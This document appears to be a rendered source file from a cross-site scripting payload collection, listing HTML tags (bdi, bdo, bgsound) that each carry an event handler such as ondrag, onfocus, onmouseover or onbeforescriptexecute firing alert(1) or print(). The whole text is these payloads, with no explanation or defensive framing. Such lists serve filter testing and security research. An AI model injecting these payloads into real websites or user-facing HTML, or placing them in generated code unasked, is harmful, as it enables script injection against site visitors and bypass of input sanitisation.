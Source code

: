 &lt;bdi onpointermove=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerout=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerover=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerrawupdate=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdi onpointerup=alert(1)&gt;XSS&lt;/bdi&gt;
&lt;bdo draggable="true" ondrag="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo draggable="true" ondragend="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo draggable="true" ondragenter="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo draggable="true" ondragleave="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo draggable="true" ondragstart="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo id=x tabindex=1 onactivate=alert(1)&gt;&lt;/bdo&gt;
&lt;bdo id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/bdo&gt;
&lt;bdo id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/bdo&gt;&lt;input autofocus&gt;
&lt;bdo id=x tabindex=1 ondeactivate=print()&gt;&lt;/bdo&gt;&lt;input id=y autofocus&gt;
&lt;bdo id=x tabindex=1 onfocus=alert(1)&gt;&lt;/bdo&gt;
&lt;bdo id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/bdo&gt;
&lt;bdo onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;bdo onbeforecopy="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onbeforecut="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onbeforepaste="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;bdo onblur=alert(1) tabindex=1 id=x&gt;&lt;/bdo&gt;&lt;input autofocus&gt;
&lt;bdo onclick="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo oncontextmenu="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bdo oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;bdo ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/bdo&gt;
&lt;bdo onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/bdo&gt;&lt;input autofocus&gt;
&lt;bdo onkeydown="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onkeypress="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onkeyup="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onmousedown="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmouseenter="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmouseleave="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmousemove="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmouseout="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmouseover="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmouseup="alert(1)"&gt;test&lt;/bdo&gt;
&lt;bdo onmousewheel=alert(1)&gt;requires scrolling
&lt;bdo onpaste="alert(1)" contenteditable&gt;test&lt;/bdo&gt;
&lt;bdo onpointerdown=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerenter=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerleave=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointermove=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerout=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerover=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerrawupdate=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bdo onpointerup=alert(1)&gt;XSS&lt;/bdo&gt;
&lt;bgsound draggable="true" ondrag="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound draggable="true" ondragend="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound draggable="true" ondragenter="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound draggable="true" ondragleave="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound draggable="true" ondragstart="alert(1)"&gt;test&lt;/bgsound&gt;
&lt;bgsound id=x tabindex=1 onactivate=alert(1)&gt;&lt;/bgsound&gt;
&lt;bgsound id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/bgsound&gt;
&lt;bgsound id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/bgsound&gt;&lt;input autofocus&gt;
&lt;bgsound id=x tabindex=1 ondeactivate=print()&gt;&lt;/bgsound&gt;&lt;input id=y autofocus&gt;
&lt;bgsound id=x tabindex=1 onfocus=alert(1)&gt;&lt;/bgsound&gt;
&lt;bgsound id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/bgsound&gt;
&lt;bgsound onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;bgsound onbeforecopy="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onbeforecut="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onbeforepaste="alert(1)" contenteditable&gt;test&lt;/bgsound&gt;
&lt;bgsound onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;